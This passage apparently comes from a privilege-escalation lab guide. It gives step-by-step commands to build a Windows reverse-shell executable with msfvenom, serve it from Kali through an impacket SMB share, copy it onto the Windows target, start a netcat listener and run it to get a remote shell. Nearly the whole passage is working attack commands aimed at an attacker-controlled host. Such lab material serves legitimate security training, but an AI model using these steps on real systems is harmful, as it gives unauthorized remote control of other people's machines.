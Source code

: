 ### Generating a Reverse Shell Executable

On Kali, generate a reverse shell executable (reverse.exe) using msfvenom. Update the LHOST IP address accordingly:
```JavaScript
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

On Kali, in the same directory as reverse.exe
```JavaScript
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

On Windows (update the IP address with your Kali IP)
```JavaScript
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
```

Setup netcat listener on Kali
```JavaScript
sudo nc -nvlp 53
```

Run reverse.exe on Windows
```JavaScript
C:\PrivEsc\reverse.exe
```
